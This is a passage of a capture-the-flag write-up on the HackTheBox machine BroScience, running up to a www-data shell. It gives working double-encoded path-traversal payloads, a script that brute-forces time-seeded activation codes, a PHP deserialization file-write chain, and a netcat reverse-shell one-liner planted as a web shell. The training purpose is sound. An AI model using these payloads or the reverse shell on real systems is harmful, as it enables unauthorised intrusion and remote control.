





## Reconnaissance

### Port Scanning

I started with a full TCP port scan and enabled Nmap's default scripts and service detection.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $sudo nmap -sC -sV -p- -T4 --min-rate 1000 -O 10.129.228.129 -oN nmap/tcp_scan.nmap 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-04 07:55 EDT
Nmap scan report for 10.129.228.129
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 df:17:c6:ba:b1:82:22:d9:1d:b5:eb:ff:5d:3d:2c:b7 (RSA)
|   256 3f:8a:56:f8:95:8f:ae:af:e3:ae:7e:b8:80:f6:79:d2 (ECDSA)
|_  256 3c:65:75:27:4a:e2:ef:93:91:37:4c:fd:d9:d4:63:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.54
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Did not follow redirect to https://broscience.htb/
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-title: BroScience : Home
|_http-server-header: Apache/2.4.54 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| ssl-cert: Subject: commonName=broscience.htb/organizationName=BroScience/countryName=AT
| Not valid before: 2022-07-14T19:48:36
|_Not valid after:  2023-07-14T19:48:36
|_ssl-date: TLS randomness does not represent time
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: Host: broscience.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.43 seconds
```
The scan exposed SSH and an Apache web server on ports 80 and 443. HTTP redirected to `https://broscience.htb/`, and the TLS certificate used the same hostname, so I added it to `/etc/hosts` before continuing.

```bash
echo "10.129.228.129 broscience.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

Browsing to the site revealed a fitness-themed PHP application with registration and login functionality.



I registered a new user and then attempted to log in.



The application required email activation, so the new account could not yet authenticate. While looking for another path forward, I inspected the home page source for interesting endpoints and parameters.



One interesting endpoint was `includes/img.php?path=<image_name>`, which loads images using a user-controlled path. Because file paths supplied by the client are a common source of local file inclusion and path traversal issues, I fuzzed the parameter with SecLists' traversal payloads.

## Exploitation

### Double-Encoded Path Traversal

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $ffuf -u https://broscience.htb/includes/img.php?path=FUZZ -w /usr/share/seclists/Discovery/path-traversal.txt -fs 0,30

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://broscience.htb/includes/img.php?path=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/path-traversal.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0,30
________________________________________________

..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd [Status: 200, Size: 2235, Words: 26, Lines: 40, Duration: 107ms]
:: Progress: [179/179] :: Job [1/1] :: 108 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
└──╼ $curl https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd -k 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

The successful payload uses double URL encoding: `%252f` is decoded once to `%2f` and then again to `/`. This bypassed the application's path validation and returned `/etc/passwd`. Besides confirming arbitrary local file read, the output disclosed the interactive user `bill`.

### Source Code Disclosure

With arbitrary file read established, I retrieved the application's PHP source. The following two files contained the pieces needed for the next stages: `index.php` showed where user preferences are loaded, while `includes/utils.php` defined both the activation-code generator and a usable deserialization gadget chain.

`index.php`:
```php
<?php
session_start();
?>

<html>
    <head>
        <title>BroScience : Home</title>
        <?php 
        include_once 'includes/header.php';
        include_once 'includes/utils.php';
        $theme = get_theme();
        ?>
        <link rel="stylesheet" href="styles/<?=$theme?>.css">
    </head>
    <body class="<?=get_theme_class($theme)?>">
        <?php include_once 'includes/navbar.php'; ?>
        <div class="uk-container uk-margin">
            <!-- TODO: Search bar -->
            <?php
            include_once 'includes/db_connect.php';
                    
            // Load exercises
            $res = pg_query($db_conn, 'SELECT exercises.id, username, title, image, SUBSTRING(content, 1, 100), exercises.date_created, users.id FROM exercises JOIN users ON author_id = users.id');
            if (pg_num_rows($res) > 0) {
                echo '<div class="uk-child-width-1-2@s uk-child-width-1-3@m" uk-grid>';
                while ($row = pg_fetch_row($res)) {
                    ?>
                    <div>
                        <div class="uk-card uk-card-default <?=(strcmp($theme,"light"))?"uk-card-secondary":""?>">
                            <div class="uk-card-media-top">
                                " width="600" height="600" alt="">
                            </div>
                            <div class="uk-card-body">
                                <a href="exercise.php?id=<?=$row[0]?>" class="uk-card-title"><?=$row[2]?></a>
                                <p><?=$row[4]?>... <a href="exercise.php?id=<?=$row[0]?>">keep reading</a></p>
                            </div>
                            <div class="uk-card-footer">
                                <p class="uk-text-meta">Written by <a class="uk-link-text" href="user.php?id=<?=$row[6]?>"><?=htmlspecialchars($row[1],ENT_QUOTES,'UTF-8')?></a> <?=rel_time($row[5])?></p>
                            </div>
                        </div>
                    </div>
                    
                    <?php
                }
                echo '</div>';
            } 
            ?>
        </div>
    </body>
</html>
```
utils.php
```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

// Source: https://stackoverflow.com/a/4420773 (Slightly adapted)
function rel_time($from, $to = null) {
    $to = (($to === null) ? (time()) : ($to));
    $to = ((is_int($to)) ? ($to) : (strtotime($to)));
    $from = ((is_int($from)) ? ($from) : (strtotime($from)));

    $units = array
    (
        "year"   => 29030400, // seconds in a year   (12 months)
        "month"  => 2419200,  // seconds in a month  (4 weeks)
        "week"   => 604800,   // seconds in a week   (7 days)
        "day"    => 86400,    // seconds in a day    (24 hours)
        "hour"   => 3600,     // seconds in an hour  (60 minutes)
        "minute" => 60,       // seconds in a minute (60 seconds)
        "second" => 1         // 1 second
    );

    $diff = abs($from - $to);

    if ($diff < 1) {
        return "Just now";
    }

    $suffix = (($from > $to) ? ("from now") : ("ago"));

    $unitCount = 0;
    $output = "";

    foreach($units as $unit => $mult)
        if($diff >= $mult && $unitCount < 1) {
            $unitCount += 1;
            // $and = (($mult != 1) ? ("") : ("and "));
            $and = "";
            $output .= ", ".$and.intval($diff / $mult)." ".$unit.((intval($diff / $mult) == 1) ? ("") : ("s"));
            $diff -= intval($diff / $mult) * $mult;
        }

    $output .= " ".$suffix;
    $output = substr($output, strlen(", "));

    return $output;
}

class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

### Vulnerability Analysis

Two weaknesses stand out in `utils.php`:

1. `generate_activation_code()` seeds PHP's pseudo-random number generator with `time()`. If the registration time is known, the supposedly secret activation token can be reproduced.
2. `get_theme()` base64-decodes and unserializes the client-controlled `user-prefs` cookie. The `AvatarInterface::__wakeup()` method then copies the file named by `tmp` to the path in `imgPath`, creating a file-write gadget.

The deserialization sink is only reached for authenticated users. I therefore had to predict the activation code, activate the account, log in, and only then deliver the serialized object.

### Predictable Account Activation

The server's `Date` response header provides a close estimate of the timestamp passed to `srand()` during registration. Allowing a small window on either side accounts for network delay and second-boundary differences.



I registered another account while capturing the response in Burp Suite, then used the following PHP script to reproduce candidate activation codes around the observed server time.

```php
#!/usr/bin/env php
<?php

function generate_activation_code(int $seed): string
{
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890';
    $activation_code = '';

    srand($seed);
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }

    return $activation_code;
}

function print_candidate_codes(int $centerTimestamp, int $window = 15): void
{
    $start = $centerTimestamp - $window;
    $end = $centerTimestamp + $window;
    $total = ($end - $start) + 1;

    echo str_repeat('=', 60) . PHP_EOL;
    echo "BroScience Activation Code Generator" . PHP_EOL;
    echo str_repeat('=', 60) . PHP_EOL;
    echo "[*] Center timestamp: {$centerTimestamp}" . PHP_EOL;
    echo "[*] Range: {$start} to {$end}" . PHP_EOL;
    echo "[*] Total candidates: {$total}" . PHP_EOL . PHP_EOL;

    for ($timestamp = $start; $timestamp <= $end; $timestamp++) {
      echo  generate_activation_code($timestamp) . PHP_EOL;
    }
}

if ($argc < 2) {
    echo "Usage: php find_code.php <unix_timestamp> [window]" . PHP_EOL;
    echo "Example: php find_code.php 1788529336 15" . PHP_EOL;
    exit(1);
}

$centerTimestamp = (int) $argv[1];
$window = isset($argv[2]) ? (int) $argv[2] : 15;

print_candidate_codes($centerTimestamp, $window);
```
I converted the HTTP date to a Unix timestamp so it could be used as the center of the brute-force window.
```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $php -r "echo strtotime('Fri, 04 Sep 2026 14:03:22 GMT');"
1788530602
```
I generated candidates for a 20-second window on either side and saved the output codes to `codes.txt`.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $php find_code.php 1788530602 20
============================================================
BroScience Activation Code Generator
============================================================
[*] Center timestamp: 1788530602
[*] Range: 1788530582 to 1788530622
[*] Total candidates: 41

DXNcAHv40RU9pJq9fZ1TJguSF0fPWjBg
VrsW4gSbVFoDHGzmzCYwg9nCIV0fanFU
bfOI1S6ZcsINezixdcDscQvr3qCryKDs
9FaPMHzgSZ6Qo1LeIOvbWGDAlRAlfip9
jaQ2TN0IHTt4ADmQM5UDidymjapZsPPq
ByWzzrPlmgBeZ4fyPTvpTHsXn90uLaLa
POQyRGcJECmIjpFYFBi2xZsiDRQN1jH8
L6EOWS9CmN5KbuFwJytQGPqwFSNGtEjI
zbetbeIgnu9iJHOCrH5Q3GMxDa0PBQaV
YrtvtTUxo56ivkwCTubK01fv90XPHtGI
<SNIP>
```

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $ffuf -u https://broscience.htb/activate.php?code=FUZZ -w codes.txt -fs 9301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://broscience.htb/activate.php?code=FUZZ
 :: Wordlist         : FUZZ: /home/tr3m0x/htb/linux/BroScience/codes.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 9301
________________________________________________

o2nxQCBioEsQVBooLLzSt7CMf9ksQHPW [Status: 200, Size: 1256, Words: 293, Lines: 28, Duration: 121ms]
<SNIP>
:: Progress: [41/41] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

The response-size difference identified the valid token. After visiting the matching activation URL, I could log in and reach the vulnerable cookie-processing path.

### PHP Object Injection and Arbitrary File Write

I created a local copy of the two gadget classes so PHP would produce an object with the exact class and property names expected by the application.

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

// Copy a known readable file into the web root to validate the gadget.
$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "/etc/passwd";
$avatar_interface->imgPath = "/var/www/html/shell.php"

// Serialize and encode
$payload = base64_encode(serialize($avatar_interface));
echo "Cookie: " . $payload . "\n";
?>
```

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $php payload.php 
Cookie: TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoxMToiL2V0Yy9wYXNzd2QiO3M6NzoiaW1nUGF0aCI7czoyMzoiL3Zhci93d3cvaHRtbC9zaGVsbC5waHAiO30=
```

After replacing the authenticated `user-prefs` cookie with the generated value and refreshing the page, `unserialize()` instantiated `AvatarInterface`. Its `__wakeup()` method copied `/etc/passwd` to `/var/www/html/shell.php`. I verified the arbitrary file write through the traversal endpoint:

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $curl https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fvar%252fwww%252fhtml%252fshell.php -k 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
``` 
The primitive worked, but it copies the contents of an existing file through `file_get_contents()`; it does not interpret `tmp` as literal content. My first attempt to place PHP code directly in that property was therefore unsuccessful:

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

// Create the gadget chain
$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.47 9001 >/tmp/f')?>";  // Read any file you want, or...
$avatar_interface->imgPath = "/var/www/html/shell.php";  // Write to web root

// Serialize and encode
$payload = base64_encode(serialize($avatar_interface));
echo "Cookie: " . $payload . "\n";
?>
```

To turn the file-copy gadget into code execution, I needed a readable server-side file whose contents I could control. Apache logs were not readable, but PHP session files were stored under `/var/lib/php/sessions/sess_<PHPSESSID>`. Reading my own session file confirmed that it contained the account username:
```bash
└──╼ $curl https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252f%252fvar%252flib%252fphp%252fsessions%252fsess_0stkc00j897c819h55hp2480gv -k 
id|s:1:"6";username|s:7:"test111";is_admin|s:1:"0";
```

Because the application lets an authenticated user update their username, I could inject PHP code into that field and have it serialized into my session file.



This creates a clean chain: control the username, let PHP write it into the session file, and use `AvatarInterface` to copy that session file into the web root with a `.php` extension. I changed the username to: 
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.47 9001 >/tmp/f')?>
```

I then changed the serialized object so that `tmp` referenced my session file and `imgPath` pointed to `cmd.php` in the web root.
```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

// Create the gadget chain
$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "/var/lib/php/sessions/sess_0stkc00j897c819h55hp2480gv";  
$avatar_interface->imgPath = "/var/www/html/cmd.php";

// Serialize and encode
$payload = base64_encode(serialize($avatar_interface));
echo "Cookie: " . $payload . "\n";
?>
```
```bash
┌─[✗]─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $php payload.php 
Cookie: TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czo1MzoiL3Zhci9saWIvcGhwL3Nlc3Npb25zL3Nlc3NfMHN0a2MwMGo4OTdjODE5aDU1aHAyNDgwZ3YiO3M6NzoiaW1nUGF0aCI7czoyMToiL3Zhci93d3cvaHRtbC9jbWQucGhwIjt9
```
After replacing the cookie and refreshing an authenticated page, I requested `cmd.php`. The copied session data contains non-PHP text, but the embedded `<?php ... ?>` block is still executed by PHP.

## Initial Foothold

### Shell as `www-data`

With a listener already running, requesting the web shell returned a reverse shell as Apache's `www-data` account.

```bash
┌─[✗]─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $curl https://broscience.htb/cmd.php -k 
```
```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $nc -lnvp 9001 
Listening on 0.0.0.0 9001
Connection received on 10.129.228.129 49700
bash: cannot set terminal process group (1269): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html$ 
```

### Database Enumeration

From the web shell, I checked listening services and found PostgreSQL bound to localhost on port 5432.

```bash
www-data@broscience:/var/www/html$ ss -tuln 
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0            0.0.0.0:50764      0.0.0.0:*          
udp   UNCONN 0      0            0.0.0.0:68         0.0.0.0:*          
udp   UNCONN 0      0            0.0.0.0:5353       0.0.0.0:*          
